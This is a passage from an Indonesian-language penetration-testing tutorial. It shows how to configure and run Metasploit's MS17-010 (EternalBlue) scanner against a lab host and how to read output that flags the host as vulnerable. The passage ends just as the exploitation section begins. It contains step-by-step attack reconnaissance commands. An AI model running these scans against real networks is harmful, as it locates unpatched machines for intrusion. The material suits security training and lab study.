    Module options (auxiliary/scanner/smb/smb_ms17_010):

      Name         Current Setting                            Required  Description
      ----         ---------------                            --------  -----------
      CHECK_ARCH   true                                       no        Check for architecture on vulnerable hosts
      CHECK_DOPU   true                                       no        Check for DOUBLEPULSAR on vulnerable hosts
      CHECK_PIPE   false                                      no        Check for named pipe on vulnerable hosts
      NAMED_PIPES  /usr/share/metasploit-framework/data/word  yes       List of named pipes to check
                   lists/named_pipes.txt
      RHOSTS                                                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/b
                                                                        asics/using-metasploit.html
      RPORT        445                                        yes       The SMB service port (TCP)
      SMBDomain    .                                          no        The Windows domain to use for authentication
      SMBPass                                                 no        The password for the specified username
      SMBUser                                                 no        The username to authenticate as
      THREADS      1                                          yes       The number of concurrent threads (max one per host)


   View the full module info with the info, or info -d command.

   msf6 auxiliary(scanner/smb/smb_ms17_010) > 
   ```

5. Setting Target:

   ```
   set RHOSTS 192.168.1.45
   Set RPORT 445
   set CHECK_ARCH true
   set CHECK_DOPU true
   set verbose true
   ```

6. Jalankan:

   ```
   run
   ```

   Jika hasil output-nya seperti ini:

   ```
   msf6 auxiliary(scanner/smb/smb_ms17_010) > run
   [*] 192.168.1.45:445      - Connected to \\192.168.1.45\IPC$ with TID = 2048
   [*] 192.168.1.45:445      - Received STATUS_INSUFF_SERVER_RESOURCES with FID = 0
   [+] 192.168.1.45:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
   [*] 192.168.1.45:445      - Scanned 1 of 1 hosts (100% complete)
   [*] Auxiliary module execution completed
   msf6 auxiliary(scanner/smb/smb_ms17_010) >
   ```

   Itu artinya target rentan terhadap EternalBlue.

### 4. Eksplotasi Target

**Langkah:**

1. Pindah ke Modul Utama Metasploit:

   ```